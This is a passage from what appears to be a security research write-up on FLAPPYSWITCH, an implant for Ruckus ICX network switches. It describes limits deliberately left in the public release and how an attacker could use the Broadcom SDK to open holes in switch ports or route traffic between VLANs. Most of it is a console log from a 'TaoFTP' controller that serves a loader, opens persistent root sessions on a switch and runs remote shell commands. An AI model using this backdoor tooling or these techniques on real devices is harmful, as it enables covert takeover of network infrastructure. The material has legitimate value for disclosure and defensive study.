 This public release also does not contain capabilities involving the Broadcom/Marvell *fabric* to connect back. It will depend on being in the same L2 subnet for the management port or VE interface. Again, this is another **intentional** limitation to minimize its usefulness. A threat actor can readily leverage the facilities in the Broadcom SDK through instrumentation of the FastIron process or direct DMA/device writes, altering the configuration of the *FPGA* for punching "holes" in the switch's logical ports (ex. ethernet or fiber), opening tunnels or routing traffic between vlans as needed, for example.

Subreption is not releasing toolchain packages or other necessary tooling to build FLAPPYSWITCH components from the provided sources.

#### 64-bit targets (8200, RODAN, Marvell-based)

**Not included in public release.**

```
[*] TaoFTP server started on 0.0.0.0:69 serving file: loader.so
[*] Starting TaoFTP interactive shell. Type 'help' for commands.
[!] Received unsupported TFTP opcode 8215 from ('192.168.1.57', 50193)
[*] TaoFTP: Magic request received from ('192.168.1.57', 58028)
[+] Remote process: pid 7105, parent 1, uid 0, euid 0
[+] Magic request from ('192.168.1.57', 58028): persistent session opened with ID 1.
[*] TaoFTP: Magic request received from ('192.168.1.57', 51757)
[+] Remote process: pid 6238, parent 1, uid 0, euid 0
[+] Magic request from ('192.168.1.57', 51757): persistent session opened with ID 2.
TaoFTP > select 1
[*] Session 1 selected.
TaoFTP [1]> shell uname -a
[+] MAGIC ACK for op 17 with 106 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 102 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    Linux Ruckus-ICX 4.14.76-19.0.0Image #1 SMP PREEMPT Sun Dec 29 21:56:46 PST 2024 aarch64_be GNU/Linux
TaoFTP [1]> shell cat /proc/cpuinfo
[+] MAGIC ACK for op 17 with 446 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 442 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    processor	: 0
    BogoMIPS	: 50.00
    Features	: fp asimd aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm lrcpc dcpop
    CPU implementer	: 0x41
    CPU architecture: 8
    CPU variant	: 0x2
    CPU part	: 0xd05
    CPU revision	: 0

    processor	: 1
    BogoMIPS	: 50.00
    Features	: fp asimd aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm lrcpc dcpop
    CPU implementer	: 0x41
    CPU architecture: 8
    CPU variant	: 0x2
    CPU part	: 0xd05
    CPU revision	: 0

TaoFTP [1]> shell ps auxw
[+] MAGIC ACK for op 17 with 4096 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 0, payload 4092 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
(...)
    root      2243  0.2  0.4  43748 15268 ?        SNl  21:50   0:04 /crit_pkg/SyslogProcessPkg/bin/fi_syslog
```
